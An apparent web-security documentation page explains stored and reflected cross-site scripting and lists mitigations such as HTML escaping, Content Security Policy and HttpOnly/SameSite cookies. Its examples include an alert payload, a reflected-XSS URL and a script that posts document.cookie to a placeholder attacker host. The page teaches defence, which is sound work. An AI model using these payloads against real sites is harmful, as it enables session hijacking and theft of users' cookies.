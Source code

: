 ```yaml
---
title: "XSS (Cross-Site Scripting)"
draft: false
weight: 999
---
```


Cross-site scripting is a form of cyber-attack where the attacker tricks a user into executing a malicious script.
The attacks can lead to the disclosure of the user's cookie information or manipulation of the web page content.

## Stored XSS Attacks

Stored XSS attacks occur when the attacker storing a malicious JavaScript on the target website.
This malicious input is saved into the website’s database and is executed when other users access the website.

For instance, in a chat application, an attacker could post the following:

```html
<script>alert("Hacked!");</script>
```

If the website does not properly escape or sanitize the input, any user who accesses the chat application and views the attacker's post will inadvertently execute this script.
While an alert may seem harmless, attackers could execute scripts like the following to send a user's cookies to the attacker:

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.example.com/steal-data", true);
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send("cookie=" + document.cookie);
</script>
```

## Reflected XSS Attacks

Reflected XSS attacks are different from stored XSS attacks in that the malicious script is not stored on the target website.
Its impact is generally more limited than stored XSS.

As an example, an attacker might send phishing emails or messages with a link like this:

```html
https://victim.example.com/search?q=<script>alert('Hacked!');</script>
```

If the target website doesn't properly handle parameters, the script might be executed.
Just like with stored XSS, the script executed is not limited to displaying an alert.
There are various techniques, such as embedding the target site inside an iframe on a fake website to steal session IDs or altering forms to send information to the attacker.

## Mitigations

The main cause of XSS vulnerabilities is a failure to escape special characters during HTML rendering.
As a fundamental measure, it is necessary to systematically escape special characters within element content and attribute values, as shown in the table below:

| Special Character | Escape Code |
| ----------------- | ----------- |
| <                 | `&lt;`      |
| >                 | `&gt;`      |
| &                 | `&amp;`     |
| "                 | `&quot;`    |
| '                 | `&#39;`     |

Additionally, the following measures are recommended:

- Returning response headers that enable XSS filters through web server configuration.
  - Content Security Policy (CSP): A security policy controlled through server response headers, restricting external content loading and script execution.
  - X-XSS-Protection: This is now deprecated as different or older browsers have varied implementations or lack support, CSP is recommended.
- Sanitizing input values (e.g., allow only numbers, letters, character limits).
- Thoughtful cookie settings:
  - HttpOnly: Setting that prevents JavaScript from reading cookies.
  - SameSite: Setting that prevents cookies from being read through requests from different domains. Since there are different types of restrictions, it's necessary to choose the appropriate setting when using it.

## References

- 徳丸 浩、「体系的に学ぶ 安全なWebアプリケーションの作り方 第2版」
